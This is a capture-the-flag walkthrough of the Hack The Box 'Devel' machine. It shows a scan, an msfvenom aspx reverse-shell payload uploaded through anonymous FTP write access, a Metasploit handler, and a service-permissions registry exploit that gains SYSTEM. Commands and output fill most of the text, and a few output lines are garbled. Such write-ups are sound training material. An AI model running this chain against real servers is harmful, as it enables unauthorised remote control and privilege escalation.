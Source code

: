 ```yaml
---
layout: post
title: Hack The Box - Devel
categories:
  - hackthebox
slug: htb-devel
tags:
  - windows
---
```

## Challenge description

[https://app.hackthebox.com/machines/Devel](https://app.hackthebox.com/machines/Devel)

This VM is an easy Windows machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1-65535 --ulimit 5000 -- -A -sC -Pn
[...]
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have an IIS 7.5 FTP and Web server

### Web Enumeration

There's not much here to discover. The site is an IIS default web page.

### FTP Enumeration

FTP server is accessible anonymously. Even better, this FTP server is giving us write permissions on the site root folder.

## Exploitation && Foothold

Let's create a meterpreter payload as an aspx file and upload it

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f aspx > h3xshell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2713 bytes

$ ftp $ip
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:h3x): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put h3xshell.aspx
local: h3xshell.aspx remote: h3xshell.aspx
229 Entering Extended Passive Mode (|||49211|)
150 Opening ASCII mode data connection.
100% |****************************************************************************************************************|  2748       23.60 MiB/s    --:-- ETA
226 Transfer complete.
2748 bytes sent in 00:00 (143.79 KiB/s)
```

Now that our payload is in place, launch a metasploit handler, browse the payload and wait for the shell:

```
$ msfconsole

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set rhosts 10.10.10.5
rhosts => 10.10.10.5
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:4444 
[*] Sending stage (175174 bytes) to 10.10.10.5
Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.5:49277 ) at 2022-01-19 04:11:20 +0000

meterpreter > shell
Process 516 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

## Privilege Escalation

There are 2 services vulnerable to a registry edit attack. Dnscache and RpcEptMapper. There is a way to create a performance counter pointing to a malicious DLL.

The exploit is well described [here](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

There's a metasploit module that we can use to exploit the service: exploit/windows/local/service_permissions

```
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/service_permissions
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/service_permissions) > set session 1
session => 1
msf6 exploit(windows/local/service_permissions) > set lhost tun0
lhost => tun0
msf6 exploit(windows/local/service_permissions) > run

[*] Started reverse TCP handler on 10.10.14.5:4444
[*] Trying to add a new service...
[*] Trying to find weak permissions in existing services..
[+] [Dnscache] Created registry key: HKLM\System\CurrentControlSet\Services\Dnscache\Performance
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:4444 -> 10.10.10.5:49271 ) at 2022-01-19 02:02:05 +0000

meterpreter > shell
Process 728 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
e69af0e4f443de7e36876fda4ec7644f
C:\Windows\system32>whoami
whoami
nt authority\system

c:\Users\babis\Desktop>more user.txt.txt
more user.txt.txt
(redacted)

C:\Windows\system32>more e69af0e4f443de7e36876fda4ec7644fc:\users\administrator\desktop\root.txt
more c:\users\administrator\desktop\root.txt
(redacted)
```

Thanks for reading <3

h3x
